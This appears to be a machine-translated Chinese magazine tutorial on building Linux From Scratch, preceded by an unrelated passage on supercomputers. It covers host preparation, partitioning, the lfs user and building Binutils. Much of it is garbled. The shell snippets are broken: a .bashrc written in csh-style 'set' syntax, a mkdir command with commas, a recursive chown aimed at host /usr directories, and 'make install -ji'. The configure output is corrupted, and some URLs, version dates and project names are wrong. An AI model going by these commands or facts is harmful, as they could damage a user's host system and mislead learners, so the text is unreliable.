> “它在 2.2GHz 增强模式下，32 位单精度运算的速度可达 1.07 EFLOPS/s，但我们仍在等待首台真正的艾级计算机。”

更广泛地观察超级计算领域，这些计算巨兽被广泛用于医学研究（不仅限于新冠相关）、天文学、化学，以及数据挖掘、产品设计和金融。虽然这可能像是一个“鸡生蛋蛋生鸡”的情况——因为在当前的 Top500 列表中，有 6.3% 的机器将“半导体”列为应用领域——但高性能计算机也被用于设计高性能计算机。而且，这正越来越多地被视为未来应用的最大功能之一。

“然而，这一点以及其他因素让我们回到了之前关于爱好者追求超出需求算力的讨论；毫无疑问，大规模计算设施的可用性在一定程度上推动了它在新领域的应用。因此，也许一定程度的过度配置最终确实发生了，而这可能正是值得支付的代价。”

NASA 高级超级计算部门的这面 Hyperwall（超墙）使科学家能够将基于超级计算机的天文模拟输出结果可视化。

Isambard 超级计算机以维多利亚时代的工程师 Isambard Kingdom Brunel 命名，它是第一台使用 ARM 架构处理器的超级计算机。

### 从零开始构建 LINUX (LINUX FROM SCRATCH)

**Aaron Peters** 探讨了如何使用 Linux From Scratch 从底层构建一个发行版。之所以叫 Scratch（从零开始），是因为为什么要走捷径呢？

Linux 以及开源软件的一个伟大之处在于，能够利用他人的成果来创造更好的东西。或者至少是对你而言更好的东西。如今的 Linux 发行版正是如此，它们将 Linux 内核、GNU 工具集和应用程序等独立的上游项目组装成一个易于安装和使用的操作系统。

当然，这意味着你总是可以通过添加软件包、功能和应用程序来定制 Linux 发行版，正如 [Linux From Scratch (www.linuxfromscratch.org)](www.linuxfromscratch.org) 项目（以下简称 LFS）中所描述的那样。不过，LFS 采取的是一种不同的策略。LFS 允许你从零开始构建一个 Linux 发行版。

听起来很有趣？确实如此，但这也需要相当大的工作量。许多现代便利功能将会缺失，因为你将从源代码和配置文件开始自己构建一切。好消息是，如果你是一个愿意“阅读手册”且能遵循指令的人，你也可以构建一个 Linux 系统，并了解如今发行版开发者是如何组装这些系统的。在这个过程中，你会学到很多东西。

开始 LFS 之前，你需要准备以下几样东西：
- 第一是一个兼容的 Linux 系统，用作“宿主机（host）”，即提供构建 LFS 最初部分所需工具的系统。
- 第二是“目标（target）”系统，即 Linux LFS 将被安装并从中引导启动的地方。
- 最后，你需要 LFS 手册，可以从项目网站下载。

### 为发行版打上你的烙印

> “Linux From Scratch 的实践是学习 Linux 在最基础层面如何运作的绝佳方式”

### 为什么要从零开始？

此时一个自然而然的问题是：“既然已经有这么多优秀的发行版存在，为什么有人还想从零开始构建 Linux？”主要有两个原因。首先，LFS 的实践是学习 Linux 在最基础层面如何运作的绝佳方式。现代发行版提供了大量的引导支持。例如，从系统管理脚本到内置的硬件检测，再到软件包依赖和安全更新。所有这些都让人很容易忘记这些移动部件是多么复杂。因此，完成 LFS 构建不仅会赋予你关于启动或运行的知识，还会让你在处理常规发行版的问题时拥有更好的排障背景。

但进一步来说，LFS 可以为需要创建专业化发行版的人提供基础支持。这种用例的一个例子可能是为某种特定硬件创建 Linux 版本。LFS 手册指出，许多发行版包含大量不必要的...

软件，而且典型的 Linux 用户已经习惯了新安装至少需要 4 或 5GB 的存储空间。（这还是保守估计；最新稳定版本的 Ubuntu 和 Fedora 的最低存储要求分别为 8.6 GB 和 15 GB。）然而，市面上确实存在“微型 OS”发行版，但如果你需要在搭载 PowerPC 处理器的机器上运行它怎么办？或者，即使像 Tiny Core Linux 这样仅 12MB 大小的发行版对你来说还是太大了怎么办？从零开始构建一个自定义发行版是一项巨大的工程，而 LFS 提供了一个非常符合逻辑的第一步。

### 满足好奇心

LFS 项目始于 1999 年，并在 2023 年 9 月发布了最新的稳定版本 11.0（截至撰写本文时）。“LFS 之书”是一套详细的分步指令，指导你如何构建自己的 Linux 发行版。它逐步描述了如何准备好运行 LFS 的系统（稍后详细介绍）、如何准备构建系统、如何获取并构建 LFS 工具链，以及如何构建软件组件。

从某种意义上说，LFS 是一个基于源码的发行版。然而，许多发行版会从上游导入组件并以首选格式进行集成和打包，而 LFS 则简单地提供构建和配置其支持的每个组件的指令。LFS 基于源码特性的优势之一是它支持多种计算机架构。它正式支持 x86（32 位）和 x86-64（64 位）处理器。虽然书中提到可以通过“一些修改”来针对 PowerPC 和 ARM 系统，但如果这是你第一次尝试如此深层的技术挑战，目前最好简单地坚持使用 x86/x86-64。

新的 shell 实例是一个非登录 shell，它不会读取并执行 `/etc/profile` 或 `~/.bash_profile` 文件的内容，而是读取并执行 `.bashrc` 文件。现在创建 `.bashrc` 文件：

```bash
#### Create a directory for "LFS"
set dir /lfs
set path $path/$dir
set LFS /mnt/lfs
set LFS_TGT /tools
set LFS_HOST=$LFS/tools-cross-compiled
set PATH=$PATH:$LFS/bin:$LFS_TGT/bin:$LFS_HOST/bin
set LFS_TGT_BIN=$LFS_TGT/bin
set LFS_TGT_SBIN=$LFS_TGT/sbin
set LFS_TGT_LIB=$LFS_TGT/lib
set LFS_TGT_INCLUDE=$LFS_TGT/include
set LFS_TGT_SAMPLES=$LFS_TGT/share/doc/samples
set LFS_TGT_CONFIG=$LFS_TGT/etc/config
set LFS_TGT_X86_64_BIN=$LFS_TGT/bin/x86_64
set LFS_TGT_X86_64_SBIN=$LFS_TGT/sbin/x86_64
```

这些设置的含义很简单：

- `smsh` shell 的 bash 函数中的 `set` 命令。哈希（Hashing）通常是一个有用的特性——bash 使用哈希表来存储命令的位置。这样可以避免每次运行命令时都搜索文件系统，从而加快系统速度。然而，只有在命令不被移动的情况下才应使用哈希表。如果命令位置发生了变动，shell 可能仍尝试在旧位置执行程序，从而导致错误。因为我们在 LFS 构建过程中经常移动程序，所以我们禁用了哈希。
- 将配置文件创建掩码（umask）设置为 022，可确保新创建的文件和目录不仅对所有者可写，而且对任何人可读且可执行（假设为默认权限）。
- 将用户配置文件创建掩码（umask）设置为 022，可确保新创建的文件和目录不仅对所有者可写，而且对任何人可读且可执行（假设为默认权限）。

### 准备冲刺！

在深入研究 LFS 之前，设定预期非常重要。根据你对系统的要求以及你需要的最终结果，你的追求将花费最少的时间和精力。然而，同一基准版本的 LFS 仍被大多数人认为是最低限度的系统。以下是一些最低要求。

首先且最重要的是，要明白你将在最终运行该系统的计算机上构建它。这意味着该系统要么已经安装了 Linux，要么能够运行 Linux Live CD 版本，并且在支持持久化的情况下能够安装更多软件。如果你的目标是在构建完成后将 LFS 安装转移到另一台机器上，你需要记住一些重要属性（如处理器类型和其他硬件）。

如果目标机器具有相同的系统架构，将 LFS 系统迁移到新机器会很容易。但例如，如果你在 x86-64 系统上构建 LFS 但想将其转移到 x86 32 位系统，你需要确保将工具设置为交叉编译。即使架构相同，你仍然需要手动将存档转移到新机器，并在最终位置进行任何必要的调整（例如，指向正确的启动驱动器）。

> 来自设置 LFS 环境章节的代码示例，可以轻松地复制并粘贴到 shell 脚本或终端中。

⬇ 从其书籍网站下载 LFS Cookbook。

### 其他“自定义发行版”项目

通过构建 LFS 的练习可以让你为组装自己的自定义 Linux OS 做好准备。不过，还有其他项目旨在以更简单的“点选”方式来实现这一目标。以下项目允许你对流行的标准发行版进行“重新打包（re-spin）”，具体如下：

- **Linux Live Kit** (www.linux-live-org.this)：该项目提供了从你喜爱的发行版创建可启动 ISO 文件的能力，适用于在 CD-R 或 USB 驱动器上运行。该项目推荐使用 Debian，但也支持其他发行版。
- **Ubuntu Imager** (https://github.com/distroshare/distroshare-ubuntuimager)：该项目允许你通过配置文件构建自定义发行版，然后组装一个自定义的基于 Ubuntu 的 ISO 文件。
- **Image Builder**：Fedora 发行版包含 Image Builder 工具，可实现自定义 OS 镜像创建。基于 Weldr 项目 (https://github.com/weldr) 的工具，它们可通过终端或 Cockpit 系统管理面板使用。

这些项目在可能包含你不想要选项的标准发行版版本，与缺乏许多自动设置和管理功能的 LFS 之间提供了一个不错的折中方案。

关于让系统运行起来，LFS 系统没有安装程序。大多数现代安装程序会处理关键步骤，如创建用户账户、设置区域和时区，然后安装一个“默认”的引导系统。在 LFS 中，这些都不会自动发生。相反，你将构建并安装所有必要的源代码包，然后进行调整使其能够启动。现在再次强调：请仔细遵循 LFS 指南。

同样，你不会有任何自动驱动安装。你将在构建内核时，通过重新编译硬件组件并将它们作为内置或模块加载，来启用所需的驱动程序。进入构建顺序的用户可能需要修改配置文件（如基于 X.org 的实用工具脚本，或配置文件 `/etc/X11/XF86Config`），你可以预料在构建 LFS 时会经历一些怀旧的重复操作。而且在初始状态下，你仅限于 Linux 内核自带的驱动程序；如果你有一些高级硬件（如高端显卡），你需要独立完成驱动程序的安装和调试。

如前所述，LFS 支持的“软件包”实际上只是源代码存档。因此，没有可以用来自动获取并安装这些组件的命令，因此绝对没有依赖解析系统。所以每次重新构建 LFS 基础系统时，你需要小心地按顺序操作，否则由于你编译的软件的某些前提条件尚未安装，你会遇到问题。

一旦整个系统运行起来，安装进一步的软件也由你决定。有几个 LFS 的姐妹项目可以帮助你扩展系统，但如果你发现某些内容未包含在这些书的指令中，你需要自己处理安装。

### 轻松上手

- 首先，本书将引导你在现有磁盘 OS 上为新系统创建新的磁盘分区。虽然暗示这将是你 Linux 机器上的 Linux 分区，但书中也提到可以使用 Live CD。这可能是安装 LFS 系统的一种有效方式，因为 Live CD 提供的实时发行版要么包含前提软件，要么支持安装它们。
- 其次，下一步是确保“宿主”系统上安装了软件前提条件。这主要包括 GCC、Make、Perl 和 Python 等构建工具。首先，确保这些前提软件包的最低版本与 LFS 版本一致，因为这将影响随后在过程中添加正确版本支持软件的能力。
- 接下来，你将在目标分区上创建实时文件系统，并在相应的目录上开发基本结构：`/bin`、`/etc`、`/usr/bin`、`/usr/sbin`、`/usr/lib` 和 `/usr/sbin`。随后相应地填充根目录 `/bin`、`/lib` 和 `/sbin`，并创建一个基础的临时文件系统。幸运的是，LFS 之书包含一个基准案例，可以高效地复制并运行以处理上述所有操作。最后，书中指导你挂载一个临时文件系统，并将其路径分配给名为 `$LFS` 的环境变量。
- 创建一个名为 "lfs" 的用户，并配置一些环境变量。同样，书的作者贴心地提供了代码片段，你可以直接复制并运行以自动化此过程（考虑到可能的拼写错误，这几乎是必要的一步）。但由于 LFS 既是一套指令也是一次学习练习，作者花时间在代码示例下方的文本中解释了脚本的每一行。

LFS 作者方便地为每个版本创建了所需的所有源代码和补丁文件的存档。

### LFS 与基于源码的发行版之对比

虽然 LFS 向你展示了如何从源代码构建基于 Linux 的 OS，但将其与真正的基于源码的发行版区分开来很重要。这些系统的例子包括 Gentoo Linux、NixOS 和 Crunch。它们都具有 LFS 的一些特性，最显著的是能够针对安装机器的特定硬件进行优化。然而，将 LFS 与这些系统相比，它们提供了许多使用户生活显著更简单的功能，包括：

- 自动构建系统，可通过单个命令下载源码包并构建。
- 依赖解析，使应用程序及其所有前提条件都能被下载并构建。
- 现代发行版特性，如硬件检测。
- 更广泛且更新更频繁的软件选择。

基于源码的发行版提供了另一种在不需要手动操作每一件事的情况下，深入研究 Linux 系统的选择。虽然 Ubuntu 和 Fedora 等其他流行发行版也提供基于源码的安装，但这并非默认选项，且在系统安装后需要额外的配置。


### 注意事项

为了使下一页表格中列出的 SBU 值发挥作用，应当记录下第一次构建此软件包所需的时间。这将允许你确定首次安装的时间。为了实现这一点，请确保你的系统时钟已同步。例如，使用此时间命令：`time { ./configure ... && make`

现在为 Binutils 准备编译：

```bash
./configure --prefix=/LFS/tools \
    --with-sysroot=`$LFS` \
    --target=i686-LFS-TGT \
    --disable-nls \
    --disable-werror
```

configure 选项的含义如下：

- `--prefix=/LFS/tools`
  这告诉 configure 脚本将生成的二进制文件放入 `/LFS/tools` 目录。
- `--with-sysroot=`$LFS`
  对于交叉编译，这告诉 configure 脚本根据需要查找必要的库。
- `--target=i686-LFS-TGT`

```bash
lfs@acp-vm:neon~/mnt/lfs/sources/11.8.0/binutils-2.37/build$
  ./configure \
    --with-sysroot=`LFS` \
    --target=i686-LFS_TGT \
    --disable-nls \
    --disable-werror

building build directory `/home/lfs/binutils-2.37/build`
checking build system type=i686-pc-linux-gnu
checking host system type=x86_64-pc-linux-gnu
checking target system type=i686-pc-linux-gnu
checking for a BSD-compatible install---/usr/bin/install
checking whether in working... yes
checking whether cc works... yes
checking for a sed that does not truncate output ... /usr/bin/sed
checking for dawk... gcc
checking for awk... gcc
checking whether the C compiler works... yes
checking whether cc outputs output file name ... a.out
checking for suffix of executables=.
checking whether we are crossing compilers... no
checking for object file name... a.out
checking whether we are using the GNU C compiler... yes
checking whether gcc accepts -pthreads... yes
checking for gcc option to accept ISO C89... none needed
checking for gcc option to accept ISO C99... none needed
checking for gcc option to accept ISO C11... none needed
checking for c++... no
checking for g++... no
checking for cc... gcc
checking for CC... no
checking for CC... no
checking for CC... no
```

> 建议在操作时同时打开 LFS 手册，因为此处展示了编译后的二进制文件。

- 获取 LFS 软件“包”，这里实际上是指由每个上游项目发布的源代码存档。LFS 作者使用“包”这个术语，是因为有时会有自动化脚本来收集这些源代码存档。对于稳定版本的手册，可以从 LFS 网站获得包含所有软件的单一存档。一个作为 `wget` 自动化输入文件的 `wget-list` 文件也可以用来下载每个包的最新可用版本。因此，书中也提供了每个包支持版本的列表，如果你出于某种原因喜欢像在 Wikipedia 上那样点击链接列表的话。下载完成后，所有文件应解压到 `$LFS` 路径下的 `/LFS/sources` 目录中。

- 构建将用于构建系统其余部分的工具链。这包括构建一些低级编译器和其他开发工具，例如 Binutils、GCC、GNU C 库和内核头文件。

- 构建由基本环境组成的临时实用程序，以避免使用开发环境。这些代表了实际 LFS 安装的首批组件。这里包含了 Coreutils 和 Bash shell 等低级系统工具，以及 Diff、Make 和 Patch 等附加开发工具。在此过程中，你还会对步骤五中安装的一些项目进行内部的“二次处理”并重新编译它们，具体包括 Binutils 和 GCC。

- 直到目前，你们一直都在使用宿主系统的工具。但此时，你实际上可以通过 chroot 进入 LFS 环境并直接在那里开始工作。这将从对 Bash 等工具的第二次处理开始，然后转向其他实用程序（如 Gedit 和 TeXfont 等文本整形工具）以及 Perl 和 Python 语言。

- 最后，你将进行一些清理工作，准备进入正式环节。到目前为止的所有操作都是为了让你准备好开始构建 LFS 系统。你现在可以开始逐个安装 LFS 软件包了。由于 LFS 手册中列出了 72 个软件包，你可以预期在保持勤奋并严格遵守指令的同时，变得非常熟悉获取源码、解压和编译的过程。

一旦工具链页面安装完成，第一步将涉及将 LFS 变为“实时”系统的配置。你将完成硬件设置、配置网络连接，最后完成引导页面设置。虽然本书为你提供了大部分引导脚本，但不要以为你不需要亲手编辑配置文件。

### 勇敢尝试


在本文中，我们探讨了 LFS 背后的前提、其优缺点，并对其流程进行了高层级的概览。如果这引起了你的兴趣，现在是时候从项目网站下载该书（Linux From Scratch 手册提供 PDF 和 HTML 格式——包括单页和分页格式），开始浏览，然后确定你是否仍愿意接受这项挑战！如果愿意，请关注下一期，我们将详细介绍构建 LFS 的过程。

> LFS 提供的“引导脚本”包含了一些（但并非全部）启动系统所需的配置。

### LINUX FROM SCRATCH (从零开始构建 Linux)

### 喜欢动手实践吗？

**Aaron Peters 是你的最佳向导，我们将深入探讨如何构建 Linux。**

你注意到这篇文章标题中的“Linux From Scratch”了吗？目前为止，这篇文章的内容还没有让你想在深夜里尖叫？

那么，你要么是被上一期 *Linux Format* 中提出的前提所吸引，要么你是一个非常特殊的 Linux 极客。无论如何，在接下来的这篇文章中，你可能会直接进入正题。所以，准备好迎接 Linux From Scratch (LFS) 的各种细节、组件和其他杂项吧。在开始之前，我们建议你在进入以下章节前准备好以下前提条件：

- 大量的耐心
- 一台用于复制和粘贴终端命令的“粉碎机”（指高效的操作设备）
- 热爱阅读（在黑色或白色背景上的纯文本）
- 面对编译错误时的高勇气水平
- 一台安装了（现代）发行版的 i386 或 x86_64 架构 PC
- 充裕的硬盘空间。或者更好的是，一个空白分区。更理想的是，一块备用硬盘
- 一份 `https://www.linuxfromscratch.org/lfs/downloads/stable` 的副本

本文将紧随并频繁引用 Linux From Scratch（以下简称 LFS）手册。由于 LFS 手册是一本真正的书，无法合理地压缩成一篇文章的大小，但它非常详尽。在 LFS 构建过程的一些早期阶段，当你开始这段旅程时，你应该严格遵循手册。作者们在编写这些精细的指令时付出了巨大心血，请充分利用它们。

### 准备宿主环境

准备宿主环境（换句话说，即你将用来构建 LFS 的现有 Linux 系统）时，首先需要做的是安装前提软件包。这主要包括 GCC 编译器、Make 和 Patch 等开发工具，以及坚固的开源语言 Perl 和 Python。在最近版本的基于 Debian 的系统上，以下命令应该能为你提供所有需要的工具（请注意，其中相当一部分可能已经存在，但包含在内也没有坏处）：

```bash
sudo apt install bash binutils bison bzip2 coreutils diffutils findutils gawk gcc grep gnu-make patch perl python3 sed tar xz-utils
```

接下来，检查它们是否都是正确的版本。LFS 手册的第 2.2 节提供了一个方便的脚本，用于检查所有必需的工具和软件是否齐全，并确认构建源码包的能力。一旦你将其内容复制到文本文件中并为其添加执行权限，你就可以使用以下命令确保系统准备就绪：

```bash
#### check-versions.sh
```

如果此命令的结果（见左侧截图）表明所有版本均足够且系统能够成功编译一个简单文件，那么你的宿主系统就准备好了。现在是时候准备你的目标系统了。

### 目标系统

在这种情况下，/target/ 系统简单来说就是文件系统中的一个位置，其中



在宿主系统上运行 check-versions.sh 脚本的输出。


你将编译并安装软件安装包。然后，你将创建一个对 Linux 友好的目录结构，添加并编辑一些配置文件，最后你将拥有一个可以运行的 LFS 系统。第一步是创建这个位置，你在这里你有多种选择：如果你在宿主系统中有一个空闲且未使用的硬盘，那是一个绝佳的选择。

- 或者，你可以在宿主系统的主要/唯一硬盘上为其创建两个或更多（或许多）个新分区。
- 最后，你可以使用镜像文件等其他方法。在本书中，我们在虚拟机上构建 LFS，因此我们创建了一个新的虚拟硬盘来安装 LFS 发行版。这实际上涉及稍后创建一个新的专用 LFS 虚拟机，并将该硬盘挂载到其中。

一旦决定了系统的目标位置，你需要为其创建两个分区。一个用于引导相关文件，大小为 200MB 较为合适。第二个用于 LFS 的其余部分（见图 2.1，显示在上方右侧）。LFS 书的 2.4 节在后续版本中还提供了一些有用指南，关于是创建单独的 swap 分区，还是创建 swap 文件作为 swap 分区（见下文）。如果你打算为你的系统使用“便捷”分区（例如“生产”子系统），那么 swap 分区可能是一个好主意。但如果你只是为了体验构建系统的过程，这可能有点过度设计。

文件系统就绪后，你将开始准备将其用作 LFS 系统的存放地。首先是为你的 LFS 系统所在位置创建一个快捷方式。因此，你要指定一个简短的变量。这将使你能够在未来的命令中轻松引用此位置。但首先，你可以将安装添加到终端设置中，或者将其添加到 `bash_profile` 中，通常设置你的 root 和 home 目录会对未来很有用：

```bash
export LFS=/mnt/lfs
```

当然，你可以将此位置设置为任何你想要的地方。设置完成后，你的宿主系统现在将为宿主系统创建挂载点，然后将 LFS 主分区挂载到那里。

```bash
sudo mkdir -p $LFS
sudo mount -t ext4 /dev/sdb2 $LFS
```

接下来在 LFS 空间中创建 `/sources/` 目录，该目录将存放所有工作文件，如源码包和构建输出。它应该被设置为“粘滞”位，以便只有所有者才能删除其中的文件，可以使用以下 `chmod` 命令：


*使用 GNOME Disks 工具设置 LFS 分区方案。*

```bash
sudo mkdir $LFS/sources
sudo chmod a+wt $LFS/sources
```

现在让我们去获取 LFS 源码包。你可以使用 `https://www.lfsproject.org/sfs/downloads/stable/wget-list` 作为挂载点，通过 FTP 抓取所有包，或者从 `www.linuxfromscratch.org/mirrors.html`（这些是 LFS 网站）下载 TAR 归档文件。一旦所有安装包就绪，在它们所在的目录中运行几次检查：确保所有文件都在，然后运行一次 md5sums 验证。

```bash
check_kit
#### make -C $LFS/sources md5sums
```

将它们全部移动到 `$LFS/sources` 目录，我们就快完成了。接下来要做的首先是目标系统并设置其主用户。首先，我们将创建基础目录结构，包括一些符号链接。请确保以 root 身份运行这些命令。同时，检查 root 用户的 `$LFS` 变量是否已设置也非常重要。

```bash
mkdir -pv $LFS/etc, $LFS/var, $LFS/usr/bin, $LFS/bin, $LFS/sbin
ln -sv $LFS/usr/bin $LFS/bin
ln -sv $LFS/usr/sbin $LFS/sbin

case $(uname -m) in
  x86_64) mkdir -pv $LFS/lib64;; 
esac

mkdir -pv $LFS/tools
```

在处理 LFS 系统时，书里建议为该任务设置一个专用用户（称为 lfs）。我们现在创建这个用户，并为其分配密码和调整权限：

```bash
groupadd lfs
useradd -g bin -s /bin/bash -k /dev/null lfs -m
passwd lfs
chown -R lfs $LFS /usr/({lfs,var,etc,bin,sbin,tools})
```

### 替代的 LFS 文件系统布局

虽然设置 LFS 最简单、最直接的方法是使用单个分区，但 LFS 书中详细介绍了一些你可能想要创建并挂载到 LFS 系统的替代分区，如下所示：

- `/boot`：这个分区应该真正成为独立分区，就像在大多数现代 Linux 系统中一样。
- `/home`：书里建议将其放在独立分区中，以便与其他安装共享。
- `/opt`：如果你计划安装大量“辅助软件”，尤其是当你希望保持 LFS 系统干净且不包含 Beyond Linux From Scratch 构建内容时，建议使用此分区。
- `/usr`：如果你需要将 LFS 系统与其余正式系统隔离，可以为此创建不同的分区，大多数 LFS 软件包最终将安装在这里。
- `/usr/src`：同样与 BLFS 相关，如果你多次尝试这个折磨人的练习，这将为你提供空间来存储和重复使用该项目的源码包。

设置这些额外分区的好处是可以在多个 LFS 安装之间共享它们。不过，在准备这些安装启动时，你需要记住它们。

```bash
case $(uname -m) in
x86_64) chmod -v lfs $LFS/lib64;;
esac
chown -v lfs $LFS/sources
```

最后，以新 `lfs` 用户身份登录，为你接下来的终端工作创建一些设置（具体为 `.bash_profile` 和 `.bashrc` 文件，LFS 书的 4.4 节详细解释了这些），并将这些设置添加到当前会话：

```bash
su - lfs
cat > ~/.bash_profile << "EOF"
export env
# (Simplified for brevity)
EOF

cat > ~/.bashrc << "EOF"
set +h
umask 022
EOF

LFS=/mnt/lfs
LFS_TGT=${LFS:-/mnt/lfs}-linux-gnu
PATH=$LFS/bin:$PATH
export LFS LFS_TGT PATH CONFIG_SITE
```

你厌倦了这些终端命令吗？但希望你已经注意到，这正是 LFS 系统中 Linux 目录结构的开端。


*LFS 系统中 Linux 目录结构的开端。*

本文的其余部分也将涉及这些。不过，我们现在已经到了真正开始构建东西的阶段。

### 工具时间

我们现在开始构建能够让我们构建工具软件的软件。LFS 的配方中包含了一些基础工具的编译，这些工具将使构建目标系统中的软件包成为可能。

这听起来很令人困惑，考虑其中一个包是 GCC。在还没有安装编译器（GCC）的情况下，你怎么能在 LFS 内部构建 GCC 呢？这需要一点技巧：先制作一个引导编译器（bootstrap compiler），然后用它来编译 LFS 将安装在自身文件系统上的工具。

与整个 LFS 过程一样，密切遵循书中的步骤并一次只进行一步至关重要。构建 Binutils 的正确指令可以在这里找到（见书中的 5.2 节）。你将构建一个引导归档，然后创建构建目录并切换到其中：

```bash
tar xvf binutils-2.37.tar.xz
cd binutils-2.37
mkdir build
cd build
```

大多数软件包的构建都遵循传统的 Linux 编译命令：`/configure`、`make` 和 `make install`。在这种情况下，书里会让你理解所有必要的配置选项，但你可能可以直接使用默认选项，或者直接将以下内容粘贴到终端中：

```bash
./configure --prefix=$LFS/tools \
  --with-sysroot=$LFS \
  --target=LFS_TGT \
  --disable-nls \
  --disable-werror

make
make install -ji
```

在此过程中你会看到大量终端输出滚屏——请注意截图中显示了这些令人兴奋的内容（左侧）。另外，将书与你的工作并排打开非常重要，因为当出现问题时，你会庆幸自己准备了救援方案。但如果进程正常退出且没有出现任何严重错误，请切换到 `$LFS/tools` 目录，你应该能看到一些新的工具条目。成功了！你完成了你的第一个工具链。构建 LFS 工具链的其余部分大体遵循类似的指令来编译以下内容：GCC 编译器、Linux API 头文件以及开发库 Glibc/Libstdc++ 等。

### 超越 Linux 从零开始 (BEYOND LINUX FROM SCRATCH)

我们在之前的介绍中提到，LFS 的结果仍然是一个相当简单的系统。它可以执行一些基本任务，但显然缺乏 ViM 编辑器等能提供实用功能的工具。与高度图形化的桌面和强大的服务器 Linux 发行版相比，它仍然有点发育不足。

这就是 Beyond Linux From Scratch (BLFS) 发挥作用的地方。这个项目使你能够向 LFS 安装中添加更强大的组件和应用程序。示例包括 sudo 和 AppArmor 等安全工具，Supercolor 或 zsh 等 shell，以及通过 Xfcé 安装的 GNOME。通过 BLFS，你可以创建一个真正个性化且高度优化的日常系统。

其他与 LFS 相关的项目包括：

- **ALFS (Automated Linux From Scratch)**：该项目 (www.linuxfromscratch.org/alfs/) 旨在使构建/组装 LFS 安装的过程自动化。
- **CLFS (Cross Linux From Scratch)**：CLFS 项目 (https://tuxcore.org/clfs/) 致力于更好地支持为其他架构（如 ARM、PowerPC 或 Sparc CPU）交叉编译 LFS。
- **HLFS (Hardened Linux From Scratch)**：通过安装该项目 (www.linuxfromscratch.org/hlfs/) 的软件包，你可以进一步加固“开箱即用”的 LFS 系统。


进入第六章来构建更多实用工具：M4 宏处理器、connections Ursula 终端 UI 工具包、Bash shell、Coreutils、Diffutils 以及 File 实用工具。你可能在主机系统先决条件列表中见过其中的许多项，这是因为我们现在正在编译它们自身的 LFS 版本。

### 在 LFS 上构建 LFS

第七章标志着一个激动人心的变化，因为你将切换到通过 chroot 来控制 LFS 系统。你将首先把当前系统的所有权转换为 root（正如你对典型 Linux 系统的预期那样，请参阅 7.2 节），并在进入目标系统并设置 root 用户（7.4 节）之前，准备好至关重要的系统文件，如 `/dev`（7.3 节）。你将创建必要的配置文件，例如 `/etc/passwd` 和 group 文件等。

这个过程规模很大，并且在很大程度上与设置主机和目标环境相同，能够从 LFS 书中复制配置文件以填充文件内容。第七章以构建一些更多的软件安装包结束，在保存系统之后，将进入第八章，在那里你将构建正式的系统。尽管这些步骤构成了其内容的绝大部分，但在构建方面涵盖的内容并不多。

这种处理考试的方式与我们在软件等方面涵盖的原因完全相同。在第七章中，我们进入 LFS 系统，创建许多关键文件，你将通过复制、粘贴和修订书中提供的文本来完成，就像你在设置主机和目标环境时那样。而且无论如何，你将通过一个类似于构建每个工具链的过程，依次编译每个 LFS 软件包。第八章唯一的注意事项是，除了构建步骤之外，其中相当多的章节还附带了额外的配置指令。一如既往，请仔细遵循指南！

### 系统配置

本书的最后一部分涉及放置最后的碎片，以使 LFS 成为一个运行中的 Linux 系统。其中一些值得注意的部分如下：

- 9.2 节详细介绍了 LFS-Bootscripts（见下文）的安装，它设置了系统的 SystemV 风格的运行级别，而 9.6 节提供了配置它们的步骤（例如，`/etc/inittab` 文件）。
- 9.3 节和 9.4 节引导你创建整个系统中的设备相关文件，如 `/dev`。
- 9.5 节引导你配置网络。


> LFS-Bootscripts 软件包，左侧为目录列表，右侧为相应的描述。

### 第 10 章 使 LFS 系统可启动

### 10.1. 介绍

现在是让 LFS 系统可启动的时候了。本章讨论创建 `/etc/fstab` 文件、为新的 LFS 系统构建内核，以及安装 GRUB 引导加载程序，以便在启动时可以选择 LFS 系统进行引导。

### 10.2. 创建 /etc/fstab 文件

`/etc/fstab` 文件被 `mount` 用于提供有关要挂载的文件系统的信息，包括默认挂载的内容、挂载顺序以及在挂载时需要检查哪些挂载（以检测完整性错误）。要创建一个具有如下系统表的新 `/etc/fstab` 文件：

```
root@LFS:/# mount -l
Filesystem	Type	Device	Used	On	Options	Dump	Pass
/dev/sda1	ext3	/dev/sda1	/ 	 rw	 0	 1
/dev/sda2	ext3	/dev/sda2	/home	 rw	 0	 2
/dev/sda3	swap	/dev/sda3	none	 sw	 0	 0
/dev/sda4	ext3	/dev/sda4	/boot	 rw	 0	 2
/dev/sda5	ext3	/dev/sda5	/var	 rw	 0	 2
/dev/sda6	ext3	/dev/sda6	/usr	 rw	 0	 2
/dev/sda7	ext3	/dev/sda7	/opt	 rw	 0	 2
/dev/sda8	ext3	/dev/sda8	/srv	 rw	 0	 2
/dev/sda9	ext3	/dev/sda9	/etc/init.d/root_mount	 rw	 0	 2
```

- 最后阶段：设置 `/etc/fstab` 文件，以便你的系统能够启动 LFS（见示例）。
- 9.7 节提供了 Bash shell 默认设置过程的详细信息。
- 10.2 节将帮助你设置 `/etc/fstab` 文件（同样，LFS 书中的指南使其成为了一个基于模板的编辑过程，如上面的截图所示）。
- 在 10.3 节中，你终于将构建 Linux 内核。

### 铺设 Linux 基础

> “LFS 要求你编译一些底层工具，从而使得在目标系统上构建 LFS 软件包成为可能。”

- 10.4 节重点介绍了 GRUB 配置。
